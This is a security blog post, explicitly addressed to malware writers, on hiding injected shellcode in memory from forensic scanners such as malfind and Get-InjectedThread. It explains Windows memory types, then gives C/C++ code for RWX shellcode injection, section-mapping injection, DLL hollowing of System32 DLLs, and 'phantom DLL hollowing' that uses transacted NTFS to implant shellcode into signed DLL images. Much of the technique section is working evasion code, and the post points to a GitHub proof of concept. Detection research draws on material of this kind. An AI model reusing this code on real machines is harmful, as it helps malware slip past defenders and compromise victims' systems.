- forrestorr
Masking Malicious Memory Artifacts – Part I: Phantom DLL Hollowing
Updated: Oct 8

Introduction
I've written this article with the intention of improving the skill of the reader as relating to the topic of memory stealth when designing malware. First by detailing a technique I term DLL hollowing which has not yet gained widespread recognition among attackers, and second by introducing the reader to one of my own variations of this technique which I call phantom DLL hollowing (the PoC for which can be found on Github).
This will be the first post in a series on malware forensics and bypassing defensive scanners. It was written with the assumption that the reader understands the basics of Windows internals and malware design.
Legitimate memory allocation
In order to understand how defenders are able to pick up on malicious memory artifacts with minimal false positives using point-in-time memory scanners such as Get-InjectedThread and malfind it is essential for one to understand what constitutes “normal” memory allocation and how malicious allocation deviates from this norm. For our purposes, typical process memory can be broken up into 3 different categories:
Private memory – not to be confused with memory that is un-shareable with other processes. All memory allocated via NTDLL.DLL!NtAllocateVirtualMemory falls into this category (this includes heap and stack memory).
Mapped memory – mapped views of sections which may or may not be created from files on disk. This does not include PE files mapped from sections created with the SEC_IMAGE flag.
Image memory – mapped views of sections created with the SEC_IMAGE flag from PE files on disk. This is distinct from mapped memory. Although image memory is technically a mapped view of a file on disk just as mapped memory may be, they are distinctively different categories of memory.
These categories directly correspond to the Type field in the MEMORY_BASIC_INFORMATION structure. This structure is strictly a usermode concept, and is not stored independently but rather is populated using the kernel mode VAD, PTE and section objects associated with the specified process. On a deeper level the key difference between private and shared (mapped/image) memory is that shared memory is derived from section objects, a construct specifically designed to allow memory to be shared between processes. With this being said, the term “private memory” can be a confusing terminology in that it implies all sections are shared between processes, which is not the case. Sections and their related mapped memory may also be private although they will not technically be “private memory,” as this term is typically used to refer to all memory which is never shared (not derived from a section). The distinction between mapped and image memory stems from the control area of their foundational section object.
In order to give the clearest possible picture of what constitutes legitimate memory allocation I wrote a memory scanner (the PoC for which can be found on Github) which uses the characteristics of the MEMORY_BASIC_INFORMATION structure returned by KERNEL32.DLL!VirtualQuery to statistically calculate the most common permission attributes of each of the three aforementioned memory types across all accessible processes. In the screenshot below I've executed this scanner on an unadulterated Windows 8 VM.
 
Figure 1 - Memory attribute statistics on a Windows 8 VM
Understanding these statistics is not difficult. The majority of private memory is +RW, consistent with its usage in stack and heap allocation. Mapped memory is largely readonly, an aspect which is also intuitive considering that the primary usage of such memory is to map existing .db, .mui and .dat files from disk into memory for the application to read. Most notably from the perspective of a malware writer is that executable memory is almost exclusively the domain of image mappings. In particular +RX regions (as opposed to +RWX) which correspond to the .text sections of DLL modules loaded into active processes.
 
Figure 2 - x64dbg enumeration of Windows Explorer image memory
In Figure 2, taken from the memory map of an explorer.exe process, image memory is shown split into multiple separate regions. Those corresponding to the PE header and subsequent sections, along with a predictable set of permissions (+RX for .text, +RW for .data, +R for .rsrc and so forth). The Info field is actually an abstraction of x64dbg and not a characteristic of the memory itself: x64dbg has walked the PEB loaded module list searching for an entry with a base address that matches the region base, and then set the Info for its PE headers to the module name, and each subsequent region within the map has had its Info set to its corresponding IMAGE_SECTION_HEADER.Name, as determined by calculating which regions correspond to each mapped image base + IMAGE_SECTION_HEADER.VirtualAddress.
Classic malware memory allocation
Malware writers have a limited set of tools in their arsenal to allocate executable memory for their code. This operation is however essential to process injection, process hollowing and packers/crypters. In brief, the classic technique for any form of malicious code allocation involved using NTDLL.DLL!NtAllocateVirtualMemory to allocate a block of +RWX permission memory and then writing either a shellcode or full PE into it, depending on the genre of attack.
uint8_t* pShellcodeMemory = (uint8_t*)VirtualAlloc(
nullptr,
dwShellcodeSize,
MEM_COMMIT|MEM_RESERVE,
PAGE_EXECUTE_READWRITE);
memcpy(pShellcodeMemory, Shellcode, dwShellcodeSize);
CreateThread(
nullptr,
0,
(LPTHREAD_START_ROUTINE)pShellcodeMemory,
nullptr,
0,
nullptr);
Later this technique evolved as both attackers and defenders increased in sophistication, leading malware writers to use a combination of NTDLL.DLL!NtAllocateVirtualMemory with +RW permissions and NTDLL.DLL!NtProtectVirtualMemory after the malicious code had been written to the region to set it to +RX before execution. In the case of process hollowing using a full PE rather than a shellcode, attackers begun correctly modifying the permissions of +RW memory they allocated for the PE to reflect the permission characteristics of the PE on a per-section basis. The benefit of this was twofold: no +RWX memory was allocated (which is suspicious in of itself) and the VAD entry for the malicious region would still read as +RW even after the permissions had been modified, further thwarting memory forensics.
uint8_t* pShellcodeMemory = (uint8_t*)VirtualAlloc(
nullptr,
dwShellcodeSize,
MEM_COMMIT|MEM_RESERVE,
PAGE_READWRITE);
memcpy(pShellcodeMemory, Shellcode, dwShellcodeSize);
VirtualProtect(
pShellcodeMemory,
dwShellcodeSize,
PAGE_EXECUTE_READ,
(PDWORD)&dwOldProtect);
CreateThread(
nullptr,
0,
(LPTHREAD_START_ROUTINE)pShellcodeMemory,
nullptr,
0,
nullptr);
More recently, attackers have transitioned to an approach of utilizing sections for their malicious code execution. This is achieved by first creating a section from the page file which will hold the malicious code. Next the section is mapped to the local process (and optionally a remote one as well) and directly modified. Changes to the local view of the section will also cause remote views to be modified as well, thus bypassing the need for APIs such as KERNEL32.DLL!WriteProcessMemory to write malicious code into remote process address space.
LARGE_INTEGER SectionMaxSize = { 0,0 };
NTSTATUS NtStatus
SectionMaxSize.LowPart = dwShellcodeSize;
NtStatus = NtCreateSection(
&hSection,
SECTION_MAP_EXECUTE | SECTION_MAP_READ | SECTION_MAP_WRITE,
NULL, &SectionMaxSize,
PAGE_EXECUTE_READWRITE,
SEC_COMMIT,
NULL);
if (NT_SUCCESS(NtStatus)) {
NtStatus = NtMapViewOfSection(
hSection,
GetCurrentProcess(),
(void **)&pShellcodeMemory,
NULL, NULL, NULL,
&cbViewSize,
2,
NULL,
PAGE_EXECUTE_READWRITE);
if (NT_SUCCESS(NtStatus)) {
memcpy(pShellcodeMemory, Shellcode, dwShellcodeSize);
CreateThread(
nullptr,
0,
(LPTHREAD_START_ROUTINE)pShellcodeMemory,
nullptr,
0,
nullptr);
}
}
While this has the benefit of being (at present) slightly less common than direct virtual memory allocation with NTDLL.DLL!NtAllocateVirtualMemory, it creates similar malicious memory artifacts for defenders to look out for. One key difference between the two methods is that NTDLL.DLL!NtAllocateVirtualMemory will allocate private memory, whereas mapped section views will allocate mapped memory (shared section memory with a data control area).
While a malware writer may avoid the use of suspicious (and potentially monitored) APIs such as NTDLL.DLL!NtAllocateVirtualMemory and NTDLL.DLL!NtProtectVirtualMemory the end result in memory is ultimately quite similar with the key difference being the distinction between a MEM_MAPPED and MEM_PRIVATE memory type assigned to the shellcode memory.
DLL hollowing
With these concepts in mind, it's clear that masking malware in memory means utilizing +RX image memory, in particular the .text section of a mapped image view. The primary caveat to this is that such memory cannot be directly allocated, nor can existing memory be modified to mimic these attributes. Only the PTE which stores the active page permissions is mutable, while the VAD and section object control area which mark the region as image memory and associate it to its underlying DLL on disk are immutable. For this reason, properly implementing a DLL hollowing attack implies infection of a mapped view generated from a real DLL file on disk. Such DLL files should have a .text section with a IMAGE_SECTION_HEADER.Misc.VirtualSize greater than or equal to the size of the shellcode being implanted, and should not yet be loaded into the target process as this implies their modification could result in a crash.
GetSystemDirectoryW(SearchFilePath, MAX_PATH);
wcscat_s(SearchFilePath, MAX_PATH, L"\\*.dll");
if ((hFind = FindFirstFileW(SearchFilePath, &Wfd)) != INVALID_HANDLE_VALUE) {
do {
if (GetModuleHandleW(Wfd.cFileName) == nullptr) {
...
}
}
while (!bMapped && FindNextFileW(hFind, &Wfd));
FindClose(hFind);
}
In this code snippet I’ve enumerated files with a .dll extension in system32 and am ensuring they are not already loaded into my process using KERNEL32.DLL!GetModuleFileNameW, which walks the PEB loaded modules list and returns their base address (the same thing as their module handle) if a name match is found. In order to create a section from the image I first need to open a handle to it. I’ll discuss TxF in the next section, but for the sake of this code walkthrough we can assume KERNEL.DLL!CreateFileW is used. Upon opening this handle I can read the contents of the PE and validate its headers, particularly its IMAGE_SECTION_HEADER.Misc.VirtualSize field which indicates a sufficient size for my shellcode.
uint32_t dwFileSize = GetFileSize(hFile, nullptr);
uint32_t dwBytesRead = 0;
pFileBuf = new uint8_t[dwFileSize];
if (ReadFile(hFile, pFileBuf, dwFileSize, (PDWORD)& dwBytesRead, nullptr)) {
SetFilePointer(hFile, 0, nullptr, FILE_BEGIN);
IMAGE_DOS_HEADER* pDosHdr = (IMAGE_DOS_HEADER*)pFileBuf;
IMAGE_NT_HEADERS* pNtHdrs = (IMAGE_NT_HEADERS*)(pFileBuf + pDosHdr->e_lfanew);
IMAGE_SECTION_HEADER* pSectHdrs = (IMAGE_SECTION_HEADER*)((uint8_t*)& pNtHdrs->OptionalHeader + sizeof(IMAGE_OPTIONAL_HEADER));
if (pNtHdrs->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR_MAGIC) {
if (dwReqBufSize < pNtHdrs->OptionalHeader.SizeOfImage && (_stricmp((char*)pSectHdrs->Name, ".text") == 0 && dwReqBufSize < pSectHdrs->Misc.VirtualSize))
...
}
}
...
}
When a valid PE is found a section can be created from its file handle, and a view of it mapped to the local process memory space.
HANDLE hSection = nullptr;
NtStatus = NtCreateSection(&hSection, SECTION_ALL_ACCESS, nullptr, nullptr, PAGE_READONLY, SEC_IMAGE, hFile);
if (NT_SUCCESS(NtStatus)) {
*pqwMapBufSize = 0;
NtStatus = NtMapViewOfSection(hSection, GetCurrentProcess(), (void**)ppMapBuf, 0, 0, nullptr, (PSIZE_T)pqwMapBufSize, 1, 0, PAGE_READONLY);
...
}
The unique characteristic essential to this technique is the use of the SEC_IMAGE flag to NTDLL.DLL!NtCreateSection. When this flag is used, the initial permissions parameter is ignored (all mapped images end up with an initial allocation permission of +RWXC). Also worth noting is that the PE itself is validated by NTDLL.DLL!NtCreateSection at this stage, and if it is invalid in any way NTDLL.DLL!NtCreateSection will fail (typically with error 0xc0000005).
Finally, the region of memory corresponding to the .text section in the mapped view can be modified and implanted with the shellcode.
*ppMappedCode = *ppMapBuf + pSectHdrs->VirtualAddress + dwCodeRva;
if (!bTxF) {
uint32_t dwOldProtect = 0;
if (VirtualProtect(*ppMappedCode, dwReqBufSize, PAGE_READWRITE, (PDWORD)& dwOldProtect)) {
memcpy(*ppMappedCode, pCodeBuf, dwReqBufSize);
if (VirtualProtect(*ppMappedCode, dwReqBufSize, dwOldProtect, (PDWORD)& dwOldProtect)) {
bMapped = true;
}
}
}
else {
bMapped = true;
}
Once the image section has been generated and a view of it has been mapped into the process memory space, it will share many characteristics in common with a module legitimately loaded via NTDLL.DLL!LdrLoadDll but with several key differences:
Relocations will be applied, but imports will not yet be resolved.
The module will not have been added to the loaded modules list in usermode process memory.
The loaded modules list is referenced in the LoaderData field of the PEB:
typedef struct _PEB {
BOOLEAN InheritedAddressSpace; // 0x0
BOOLEAN ReadImageFileExecOptions; // 0x1
BOOLEAN BeingDebugged; // 0x2
BOOLEAN Spare; // 0x3
#ifdef _WIN64
uint8_t Padding1[4];
HANDLE Mutant; // 0x4 / 0x8
void * ImageBase; // 0x8 / 0x10
PPEB_LDR_DATA LoaderData; // 0xC / 0x18
...
}
There are three such lists, all representing the same modules in a different ordering.
typedef struct _LDR_MODULE {
LIST_ENTRY InLoadOrderModuleList;
LIST_ENTRY InMemoryOrderModuleList;
LIST_ENTRY InInitializationOrderModuleList;
void * BaseAddress;
void * EntryPoint;
ULONG SizeOfImage;
UNICODE_STRING FullDllName;
UNICODE_STRING BaseDllName;
ULONG Flags;
SHORT LoadCount;
SHORT TlsIndex;
LIST_ENTRY HashTableEntry;
ULONG TimeDateStamp;
} LDR_MODULE, *PLDR_MODULE;
typedef struct _PEB_LDR_DATA {
ULONG Length;
ULONG Initialized;
void * SsHandle;
LIST_ENTRY InLoadOrderModuleList;
LIST_ENTRY InMemoryOrderModuleList;
LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
It’s important to note that to avoid leaving suspicious memory artifacts behind, an attacker should add their module to all three of the lists. In Figure 3 (shown below) I’ve executed my hollower PoC without modifying the loaded modules list in the PEB to reflect the addition of the selected hollowing module (aadauthhelper.dll).

Figure 3 – 64-bit DLL hollower PoC embedding a message box shellcode into aadauthhelper.dll
Using x64dbg to view the memory allocated for the aadauthhelper.dll base at 0x00007ffd326a0000 we can see that despite its IMG tag, it looks distinctly different from the other IMG module memory surrounding it.


Figure 4 – Artificially mapped aadauthhelper.dll orphaned from its loaded modules list entry
This is because the association between a region of image memory and its module is inferred rather than explicitly recorded. In this case, x64dbg is scanning the aforementioned PEB loaded modules list for an entry with a BaseAddress of 0x00007ffd326a0000 and upon not finding one, does not associate a name with the region or associate its subsections with the sections from its PE header. Upon adding aadauthhelper.dll to the loaded modules lists, x64dbg shows the region as if it corresponded to a legitimately loaded module.


Figure 5 – Mapped view of aadauthhelper.dll linked to the loaded modules list
Comparing this artificial module (implanted with shellcode) with a legitimately loaded aadauthhelper.dll we can see there is no difference from the perspective of a memory scanner. Only once we view the .text sections in memory and compare them between the legitimate and hollowed versions of aadauthhelper.dll can we see the difference.
Phantom hollowing
DLL hollowing does in of itself represent a major leap forward in malware design. Notably though, the +RX characteristic of the .text section conventionally forces the attacker into a position of manually modifying this region to be +RW using an API such as NTDLL.DLL!NtProtectVirtualMemory after it has been mapped, writing their shellcode to it and then switching it back to +RX prior to execution. This sets off two different alarms for a sophisticated defender to pick up on:
Modification of the permissions of a PTE associated with image memory after it has already been mapped using an API such as NTDLL.DLL!NtProtectVirtualMemory.
A new private view of the modified image section being created within the afflicted process memory space.
While the first alarm is self-explanatory the second merits further consideration. It may be noted in Figure 2 that the initial allocation permissions of all image related memory is +RWXC, or PAGE_EXECUTE_WRITECOPY. By default, mapped views of image sections created from DLLs are shared as a memory optimization by Windows. For example, only one copy of kernel32.dll will reside in physical memory but will be shared throughout the virtual address space of every process via a shared section object. Once the mapped view of a shared section is modified, a unique (modified) copy of it will be privately stored within the address space of the process which modified it. This characteristic provides a valuable artifact for defenders who aim to identify modified regions of image memory without relying on runtime interception of modifications to the PTE.
 
Figure 6 - VMMap of unmodified aadauthhelper.dll
In Figure 6 above, it can be clearly seen that the substantial majority of aadauthhelper.dll in memory is shared, as is typical of mapped image memory. Notably though, two regions of the image address space (corresponding to the .data and .didat sections) have two private pages associated with them. This is because these sections are writable, and whenever a previously unmodified page within their regions is modified it will be made private on a per-page basis.
 
Figure 7 - VMMap of hollowed aadauthhelper.dll
After allowing my hollower to change the protections of the .text section and infect a region with my shellcode, 4K (the default size of a single page) within the .text sections is suddenly marked as private rather than shared. Notably, however many bytes of a shared region are modified (even if it is only one byte) the total size of the affected region will be rounded up to a multiple of the default page size. In this case, my shellcode was 784 bytes which was rounded up to 0x1000, and a full page within .text was made private despite a considerably smaller number of shellcode bytes being written.
Thankfully for us attackers, it is indeed possible to modify an image of a signed PE without changing its contents on disk, and prior to mapping a view of it into memory using transacted NTFS (TxF).
 
Figure 8 – TxF APIs
Originally designed to provide easy rollback functionality to installers, TxF was implemented in such a way by Microsoft that it allows for complete isolation of transacted data from external applications (including AntiVirus). Therefore if a malware writer opens a TxF file handle to a legitimate Microsoft signed PE file on disk, he can conspicuously use an API such as NTDLL.DLL!NtWriteFile to overwrite the contents of this PE while never causing the malware to be scanned when touching disk (as he has not truly modified the PE on disk). He then has a phantom file handle referencing a file object containing malware which can be used the same as a regular file handle would, with the key difference that it is backed by an unmodified and legitimate/signed file of his choice. As previously discussed, NTDLL.DLL!NtCreateSection consumes a file handle when called with SEC_IMAGE, and the resulting section may be mapped into memory using NTDLL.DLL!NtMapViewOfSection. To the great fortune of the malware writer, these may be transacted file handles, effectively providing him a means of creating phantom image sections.
The essence of phantom DLL hollowing is that an attacker can open a TxF handle to a Microsoft signed DLL file on disk, infect its .text section with his shellcode, and then generate a phantom section from this malware-implanted image and map a view of it to the address space of a process of his choice. The file object underlying the mapping will still point back to the legitimate Microsoft signed DLL on disk (which has not changed) however the view in memory will contain his shellcode hidden in its .text section with +RX permissions.
NtStatus = NtCreateTransaction(&hTransaction,
TRANSACTION_ALL_ACCESS,
&ObjAttr,
nullptr,
nullptr,
0,
0,
0,
nullptr,
nullptr);
hFile = CreateFileTransactedW(FilePath,
GENERIC_WRITE | GENERIC_READ, // The permission to write to the DLL on disk is required even though we technically aren't doing this.
0,
nullptr,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
nullptr,
hTransaction,
nullptr,
nullptr);
...
memcpy(pFileBuf + pSectHdrs->PointerToRawData + dwCodeRva, pCodeBuf, dwReqBufSize);
if (WriteFile(hFile, pFileBuf, dwFileSize, (PDWORD)& dwBytesWritten, nullptr)) {
HANDLE hSection = nullptr;
NtStatus = NtCreateSection(&hSection, SECTION_ALL_ACCESS, nullptr, nullptr, PAGE_READONLY, SEC_IMAGE, hFile);
if (NT_SUCCESS(NtStatus)) {
*pqwMapBufSize = 0;
NtStatus = NtMapViewOfSection(hSection, GetCurrentProcess(), (void**)ppMapBuf, 0, 0, nullptr, (PSIZE_T)pqwMapBufSize, 1, 0, PAGE_READONLY);
}
}
Notably in the snippet above, rather than using the .text IMAGE_SECTION_HEADER.VirtualAddress to identify the infection address of my shellcode I am using IMAGE_SECTION_HEADER.PointerToRawData. This is due to the fact that although I am not writing any content to disk, the PE file is still technically physical in the sense that it has not yet been mapped in to memory. Most relevant in the side effects of this is the fact that the sections will begin at IMAGE_OPTIONAL_HEADER.FileAlignment offsets rather than IMAGE_OPTIONAL_HEADER.SectionAlignment offsets, the latter of which typically corresponds to the default page size.
The only drawback of phantom DLL hollowing is that even though we are not writing to the image we are hollowing on disk (which will typically be protected In System32 and unwritable without admin and UAC elevation) in order to use APIs such as NTDLL.DLL!NtWriteFile to write malware to phantom files, one must first open a handle to its underlying file on disk with write permissions. In the case of an attacker who does not have sufficient privileges to create their desired TxF handle, a solution is to simply copy a DLL from System32 to the malware’s application directory and open a writable handle to this copy. The path of this file is less stealthy to a human analyst, however from a program’s point of view the file is still a legitimate Microsoft signed DLL and such DLLs often exist in many directories outside of System32, making an automated detection without false positives much more difficult.
Another important consideration with phantom sections is that it is not safe to modify the .text section at an arbitrary offset. This is because a .text section within an image mapped to memory will look different from its equivalent file on disk, and because it may contain data directories whose modification will corrupt the PE. When relocations are applied to the PE, this will cause all of the absolute addresses within the file to be modified (re-based) to reflect the image base selected by the OS, due to ASLR. If shellcode is written to a region of code containing absolute address references, it will cause the shellcode to be corrupted when NTDLL.DLL!NtMapViewOfSection is called.
bool CheckRelocRange(uint8_t* pRelocBuf, uint32_t dwRelocBufSize, uint32_t dwStartRVA, uint32_t dwEndRVA) {
IMAGE_BASE_RELOCATION * pCurrentRelocBlock;
uint32_t dwRelocBufOffset, dwX;
bool bWithinRange = false;
for (pCurrentRelocBlock = (IMAGE_BASE_RELOCATION *)pRelocBuf, dwX = 0, dwRelocBufOffset = 0; pCurrentRelocBlock->SizeOfBlock; dwX++) {
uint32_t dwNumBlocks = ((pCurrentRelocBlock->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(uint16_t));
uint16_t *pwCurrentRelocEntry = (uint16_t*)((uint8_t*)pCurrentRelocBlock + sizeof(IMAGE_BASE_RELOCATION));
for (uint32_t dwY = 0; dwY < dwNumBlocks; dwY++, pwCurrentRelocEntry++) {
#ifdef _WIN64
#define RELOC_FLAG_ARCH_AGNOSTIC IMAGE_REL_BASED_DIR64
#define RELOC_FLAG_ARCH_AGNOSTIC IMAGE_REL_BASED_HIGHLOW
if (((*pwCurrentRelocEntry >> 12) & RELOC_FLAG_ARCH_AGNOSTIC) == RELOC_FLAG_ARCH_AGNOSTIC) {
uint32_t dwRelocEntryRefLocRva = (pCurrentRelocBlock->VirtualAddress + (*pwCurrentRelocEntry & 0x0FFF));
if (dwRelocEntryRefLocRva >= dwStartRVA && dwRelocEntryRefLocRva < dwEndRVA) {
bWithinRange = true;
}
}
}
dwRelocBufOffset += pCurrentRelocBlock->SizeOfBlock;
pCurrentRelocBlock = (IMAGE_BASE_RELOCATION *)((uint8_t*)pCurrentRelocBlock + pCurrentRelocBlock->SizeOfBlock);
}
return bWithinRange;
}
In the code above, a gap of sufficient size is identified within our intended DLL image by walking the base relocation data directory. Additionally, as previously mentioned NTDLL.DLL!NtCreateSection will fail if an invalid PE is used as a handle for SEC_IMAGE initialization. In many Windows DLLs, data directories (such as TLS, configuration data, exports and others) are stored within the .text section itself. This means that by overwriting these data directories with a shellcode implant, we may invalidate existing data directories, thus corrupting the PE and causing NTDLL.DLL!NtCreateSection to fail.
for (uint32_t dwX = 0; dwX < pNtHdrs->OptionalHeader.NumberOfRvaAndSizes; dwX++) {
if (pNtHdrs->OptionalHeader.DataDirectory[dwX].VirtualAddress >= pSectHdrs->VirtualAddress && pNtHdrs->OptionalHeader.DataDirectory[dwX].VirtualAddress < (pSectHdrs->VirtualAddress + pSectHdrs->Misc.VirtualSize)) {
pNtHdrs->OptionalHeader.DataDirectory[dwX].VirtualAddress = 0;
pNtHdrs->OptionalHeader.DataDirectory[dwX].Size = 0;
}
}
In the code above I am wiping data directories that point within the .text section. A more elegant solution is to look for gaps between the data directories in .text, similar to how I found gaps within the relocations. However, this is less simple than it sounds, as many of these directories themselves contain references to additional data directories (load config is a good example, which contains many RVA which may also fall within .text). For the purposes of this PoC I’ve simply wiped conflicting data directories. Since the module will never be run, doing so will not affect its execution nor will it affect ours since we are using a PIC shellcode.
Last thoughts
Attackers have long been overdue for a major shift and leap forward in their malware design, particularly in the area of memory forensics. I believe that DLL hollowing is likely to become a ubiquitous characteristic of malware memory allocation over the next several years, and this will prompt malware writers to further refine their techniques and adopt my method of phantom DLL hollowing, or new (and still undiscovered) methods of thwarting analysis of PE images in memory vs. on disk. Until such a time that innovations in theory are called for, I believe it is more valuable to focus on practical solutions to existing defensive technology. For this reason, in my next post in this series I will discuss bypasses for defensive scanners such as Get-InjectedThread, Malfind and Hollowfind.
291 views